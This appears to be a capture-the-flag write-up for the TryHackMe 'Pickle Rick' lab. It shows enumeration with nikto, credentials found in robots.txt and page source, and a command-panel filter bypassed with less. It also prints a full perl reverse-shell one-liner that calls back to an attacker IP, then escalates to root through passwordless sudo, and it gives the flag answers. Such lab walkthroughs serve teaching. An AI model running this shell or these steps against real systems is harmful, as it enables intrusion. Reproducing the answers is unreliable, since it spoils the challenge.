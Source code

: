 # Pickle Rick

## Task 1

```
export IP=10.10.90.223
```

### 1 What is the first ingredient Rick needs?

**/robots.txt:**
```
Wubbalubbadubdub
```


**/index.html source:**
```html
<!--

  Note to self, remember username!

  Username: R1ckRul3s

-->
```

Running nikto found a login page at `/login.php`:
```bash
jeffrowell@kali:~/Documents/TryHackMe/Pickle Rick$ nikto -url http://$IP
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.90.223
+ Target Hostname:    10.10.90.223
+ Target Port:        80
+ Start Time:         2020-05-23 14:36:09 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
^[[A+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2020-05-23 14:56:45 (GMT-6) (1236 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Now we can log in with the credentials `R1ckRul3s:Wubbalubbadubdub`


We are prompted with a command panel where we can run some bash commands, so we start just runniing `ls` to see what files are in the directory:

![ls](https://user-images.githubusercontent.com/32188816/82740578-51260700-9d07-11ea-8619-9236da660562.png)

Lets try to view the file `Sup3rS3cretPickl3Ingred.txt`. As it turns out, we cannot run `cat` or `more`:

![denied_cat](https://user-images.githubusercontent.com/32188816/82740585-6dc23f00-9d07-11ea-82cb-e1bb74686919.png)

But we can run `less`:

![less](https://user-images.githubusercontent.com/32188816/82740734-d100a100-9d08-11ea-8406-c64fa1372518.png)

```
mr. meeseek hair
```

### 2 What is the second ingredient Rick needs?

We are able to get a perl reverse shell with the payload from pentestmonkey:
```bash
perl -e 'use Socket;$i="10.8.21.42";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
jeffrowell@kali:~/Documents/TryHackMe/Pickle Rick/assets$ nc -lvp 1234
listening on [any] 1234 ...
10.10.90.223: inverse host lookup failed: Unknown host
connect to [10.8.21.42] from (UNKNOWN) [10.10.90.223] 54614
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Before getting linpeas on the box and enumerating just checking some low hanging fruit shows that we can run any command as root with no password!

```bash
www-data@ip-10-10-90-223:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-90-223.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-90-223.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-90-223:/tmp$ sudo su
sudo su
root@ip-10-10-90-223:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@ip-10-10-90-223:/var/www/html# ls /home
ls /home
rick  ubuntu
```

```bash
root@ip-10-10-90-223:/var/www/html# cd /home/rick
root@ip-10-10-90-223:/home/rick# ls
ls
second ingredients
root@ip-10-10-90-223:/home/rick# cat "second ingredients"
cat "second ingredients"
1 jerry tear
```

### 3 What is the third ingredient Rick needs?
```bash
root@ip-10-10-90-223:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
```
